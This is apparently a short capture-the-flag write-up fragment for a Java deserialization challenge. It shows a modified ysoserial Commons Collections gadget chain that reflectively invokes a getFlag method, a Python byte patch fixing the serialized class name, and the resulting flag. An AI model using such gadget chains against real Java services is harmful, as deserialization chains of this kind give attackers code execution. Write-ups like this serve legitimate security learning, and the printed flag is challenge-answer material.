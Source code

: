 ```java
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
            new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Flag.class), // Flag class here 
        new InvokerTransformer("getMethod", new Class[] {
          String.class, Class[].class }, new Object[] {
          "getFlag", new Class[0] }), // invoke static method getFlag
        new InvokerTransformer("invoke", new Class[] {
          Object.class, Object[].class }, new Object[] {
          null, new Object[0] }),
        new ConstantTransformer(1) };

...

```

We have generate the payload, but the class name of Flag is incorrect; it should be `com.trendmicro.jail.Flag`. Let's use Python to do the replacement trick:

```python
# The first byte is the length of the class name
replace(b'\x17ysoserial.payloads.Flag',b'\x18com.trendmicro.jail.Flag')
```

The flag: `TMCTF{15nuck9astTheF1agMarsha12day}`

